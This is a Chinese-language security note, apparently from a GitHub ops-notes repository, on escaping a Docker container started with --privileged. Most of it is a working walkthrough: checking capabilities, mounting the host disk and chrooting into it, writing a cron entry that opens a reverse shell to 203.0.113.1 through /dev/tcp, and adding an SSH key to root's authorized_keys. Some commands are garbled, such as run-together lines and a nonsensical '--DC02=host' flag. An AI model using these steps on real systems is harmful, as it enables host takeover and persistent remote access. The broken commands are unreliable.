



# Docker 高危启动参数 -- privileged 特权模式启动容器

> GitHub 仓库源文件：[点击打开网页渲染版](https://github.com/ben2023niao/ben-ops-notes/blob/main/doc/md/202304141557-%E5%AE%89%E5%85%A8%E4%B8%8E%E5%A0%A1%E5%9E%92%E6%9C%BA%2B%E5%AE%89%E5%85%A8%E8%BF%90%E7%BB%B4%2BLinux%2BRedis-Docker%20%E9%AB%98%E5%8D%B1%E5%90%AF%E5%8A%A8%E5%8F%82%E6%95%B0%20-%20privileged%20%E7%89%B9%E6%9D%83%E6%A8%A1%E5%BC%8F%E5%90%AF%E5%8A%A8%E5%AE%B9%E5%99%A8.md)

## ⭐Docker 高危启动参数 -- privileged 特权模式启动容器

特权模式逃逸是一种最简单有效的逃逸方法，使用特权模式启动的容器时，docker管理员可通过mount命令将外部宿主机磁盘设备挂载进容器内部，获取对整个宿主机的文件读写权限，可直接通过chroot切换根目录、写ssh公钥和crontab计划任何等getshell。

> 当操作者执行docker run --privileged时，Docker将允许容器访问宿主机上的所有设备，同时修改AppArmor或SELinux的配置，使容器拥有与那些直接运行在宿主机上的进程几乎相同的访问权限。

**判断方法：**

特权模式起的容器，实战可通过`cat /proc/self/status |grep Cap`命令判断当前容器是否通过特权模式起（CapEff: 000000xfffffffff代表为特权模式起）


**利用方法：**

特权模式启动一个Ubuntu容器：

```bash
sudo docker run -itd --privileged ubuntu:latest /bin/bash
```

进入容器：
使用`fdisk -l` 命令查看磁盘文件：



fdisk -l命令查看宿主机设备为/dev/sda5(**一般是最大的那个**)，通过mount命令将宿主机根目录挂载进容器

> 在特权模式下，逃逸的方式很多，比如：直接在容器内部挂载宿主机磁盘，然后切换根目录。

新建一个目录：`mkdir /test`
挂载磁盘到新建目录：`mount /dev/sda5 /test`
切换根目录：`chroot /test`
**到这里已经成功逃逸了**，然后就是常规的反弹shell 和 写 SSH 了(和redis未授权差不多）。



写计划任务，反弹宿主机Shell：

```
echo '* * * * * /bin/bash -i >& /dev/tcp/203.0.113.1/1234 0>&1' >> /test/var/spool/cron/crontabs/root
```

如果要写SSH的话，需要**挂载宿主机的root目录到容器**:

```bash
docker run -itd -v /root:/root ubuntu:18.04 /bin/bashmkdir /root/.sshcat id_rsa.pub >> /root/.ssh/authorized_keys
```

然后ssh 私钥登录。

**其他参数：**
Docker 通过Linux namespace实现6项资源隔离，包括主机名、用户权限、文件系统、网络、进程号、进程间通讯。但部分启动参数授予容器权限较大的权限，从而打破了资源隔离的界限。

```
--cap-add=SYS_ADMIN 启动时，允许执行mount特权操作，需获得资源挂载进行利用。 --net=host 启动时，绕过Network Namespace --pid=host 启动时，绕过PID Namespace --DC02=host 启动时，绕过DC02 Namespace
```
